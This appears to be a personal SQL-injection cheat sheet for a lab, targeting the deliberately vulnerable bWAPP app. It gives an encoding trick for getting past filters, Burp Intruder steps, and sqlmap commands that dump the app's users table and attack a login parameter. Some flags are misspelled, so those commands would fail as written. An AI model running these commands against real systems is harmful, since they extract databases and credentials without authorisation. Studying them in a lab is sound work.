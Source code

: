 ##### SQL Analogy

SQL Query:
> SELECT * FROM users WHERE name='username' and password='password'

##### Payloads

KALI: /usr/share/wordlists/wfuzz/Injections/SQL.txt || [GITHUB](https://github.com/xmendez/wfuzz/blob/master/wordlist/Injections/SQL.txt)


### SQL (GET/Search)

Diffrent **Encoding** will work:
- Encode (  '  ) ar an URL is (  %27  ) | SQL Injection will still work

This might bypass some security checks

___

BurpSuit

1. **Identify** SQL Injection field.
2. Foxy-Proxy with BurpSuit, capture GET Request
3. right click Send to INTRUDER and remove input fields ( § ) where Not Needed
4. Load a payload in Intruder and Start

If broken an ERROR will be present in the RESPONSE

---

SQLMAP

1. **Capture** GET Request from SQL Injection field ( BurpSuite )
2.  Command Time:

URL taken from BurpSuit "GET URL" | "&action=search" is not needed -> "&"

```
$ sqlmap -u "https://192.168.1.225/bWAPP/sqli_1.php?title="
```

PHPSESID / coockie. from BurpSuite. Might be needed if loged in.

``` 
$ sqlmap -u "https://192.168.1.255/bWAPP/sqli_1.php?title=" --coockie="PHPSESSID=fb74c7cc58faf89e1fac9529a37acd5c; security_level=0" 
{--dbs | -T | -D } [ --fresh-querie ] [ --dump ]
```

--dbs = Lists Databases
-D = Select database
-T = Select table
--fresh-querie = New not localy stored querie
--dump = Give all info 

**FINAL COMMAND** ""

``` 
$ sqlmap -u "http://192.168.1.225/bWAPP/sqli_1.php?title=&action=search" --coockie="TEST" -D bWAPP -T users --dump --fresh-querie
```


### SQL (Login From/User)

sqlmap to dump sql-db
- Parameter example: **login=tom&password=123&form=submit**

Use --> login <-- "Found from BurpSuite GET Request"

1. Capture **Login** GET Request in (BurpSuite) && copy data to file
2. Find parameter to use with sqlmap
3. Commands:

```
$ sqlmap -r SQL_Burpsuit_FILE -p login --dump
```

-p = Parameter
--dump =dump all in db 